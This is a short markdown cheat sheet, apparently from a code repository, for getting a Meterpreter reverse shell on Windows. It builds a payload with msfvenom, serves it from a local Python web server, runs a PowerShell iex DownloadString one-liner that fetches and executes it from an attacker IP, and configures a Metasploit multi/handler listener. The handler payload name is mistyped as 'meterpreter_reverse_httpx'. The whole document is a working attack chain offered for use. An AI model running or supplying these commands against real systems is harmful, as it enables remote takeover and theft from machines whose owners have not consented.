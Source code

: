 
# PowerShell & Metasploit

**Flow** 
Create a reverse shell script using msfvenom and get it using powershell iex then execute it while the metasploit listening

___

Create The reverse shell

> msfvenom -p windows/x64/meterpreter_reverse_https lport=443 lhost=192.168.x.x  -f psh-reflection > payload.ps1

Create local server to share the file

> python -m SimpleHTTPServer 80

Request the script 

> powershell iex (New-Object Net.Webclient).DownloadString('http://192.168.x.x/payload.ps1')


Setup connection Metasploit

> use exploit/multi/handler

> set payload windows/x64/meterpreter_reverse_httpx

> set LHOST 192.168.x.2

> set LPORT 443

> exploit 

